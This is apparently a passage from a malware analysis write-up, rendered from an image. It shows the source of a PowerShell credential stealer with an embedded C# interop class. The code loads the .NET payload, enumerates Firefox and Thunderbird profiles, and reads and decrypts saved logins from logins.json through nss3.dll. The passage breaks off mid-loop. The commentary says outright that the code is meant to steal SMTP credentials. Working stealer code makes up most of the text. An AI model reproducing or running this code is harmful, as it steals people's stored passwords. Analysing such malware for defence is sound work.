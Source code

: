 ```csharp
                        while (System.Runtime.InteropServices.Marshal.ReadByte(ptr, len) != 0){len++;}
                        if (len == 0){return "";}
                        byte[] array = new byte[len];
                        System.Runtime.InteropServices.Marshal.Copy(ptr, array, 0, len);
                        return System.Text.Encoding.UTF8.GetString(array);
                    } 
                    private static string PtrToStringSized(IntPtr ptr, int len) 
                    {
                        if (ptr == IntPtr.Zero){return "";}  
                        if (len == 0){return "";}
                        byte[] array = new byte[len];
                        System.Runtime.InteropServices.Marshal.Copy(ptr, array, 0, len);
                        return System.Text.Encoding.UTF8.GetString(array);
                    } 
                }
"@ 
```

<h6>This initiates the .NET class and define the path of the profile, the fact to use an array with valid softwares by the valid paths will be more stealth, this retry for each arch version and software. This search to steal the SMTP credentials.</h6>

```csharp
        Add-Type -TypeDefinition $netCode -Language CSharp -CompilerParameters $cp2 # Initiate .NET payload
        $profilePathFF = "$($env:APPDATA)\Mozilla\Firefox\Profiles\*.*"
        $profilePathTB = "$($env:APPDATA)\ThunderBird\Profiles\*.*"
        $defaultProfiles = @()
        try 
        {
            $defaultProfiles += $(Get-ChildItem $profilePathFF -ErrorAction SilentlyContinue) | select -ExpandProperty FullName -ErrorAction SilentlyContinue
            $defaultProfiles += $(Get-ChildItem $profilePathTB -ErrorAction SilentlyContinue) | select -ExpandProperty FullName -ErrorAction SilentlyContinue
        }
        catch {}
        # Why don't do an array with the valid path ?
        # Test again
        if($mozillaPath -ne $null) 
        {
            $nss = $(Join-Path ([string]$mozillaPath) ([string]'nss3.dll'))  
            If([System.IO.File]::Exists($nss)) #if the dll exists
            {
                foreach($defaultProfile in $defaultProfiles)
                {          
                    if($defaultProfile -ne $null ) 
                    {
                        $jsonPath = $(Join-Path ([string]$defaultProfile) ([string]"logins.json"))
                        if([System.IO.File]::Exists($jsonPath)) 
                        {
                            $jsonFile = (Get-Content $jsonPath -ErrorAction SilentlyContinue)
                                if(!($jsonFile)){}
                                else
                                { 
                                    $ser = New-Object System.Web.Script.Serialization.JavaScriptSerializer
                                    $obj = $ser.DeserializeObject($jsonFile)
                                    $initFF = $([Stiller]::initFF($mozillapath, $defaultProfile));	
                                    if($initFF -eq $True) 
                                    {    
                                        $logins = $obj['logins']
                                        $count = ($logins.Count) - 1
```